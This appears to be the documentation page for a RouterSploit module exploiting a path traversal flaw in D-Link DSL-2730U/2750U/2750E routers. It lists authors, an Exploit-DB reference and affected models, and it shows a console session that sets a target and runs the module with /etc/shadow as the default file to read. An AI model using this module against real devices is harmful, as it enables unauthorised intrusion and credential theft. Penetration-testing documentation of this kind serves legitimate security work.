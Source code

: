 # D-Link DSL-2730U/2750U/2750E Path Traversal

## Description
Module exploits D-Link DSL-2730U/2750U/2750E Path Traversal vulnerability which allows to read any file on the system.

## Authors
* Todor Donev <todor.donev[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/40735/](https://www.exploit-db.com/exploits/40735/)

## Vulnerable devices
* D-Link DSL-2730U
* D-Link DSL-2750U
* D-Link DSL-2750E

## Usage
```
rsf > use exploits/dlink/dsl_2730_2750_path_traversal
rsf (D-Link DSL-2730U/2750U/2750E Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/shadow          File to read


rsf (D-Link DSL-2730U/2750U/2750E Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DSL-2730U/2750U/2750E Path Traversal) > run
[*] Running module...
```
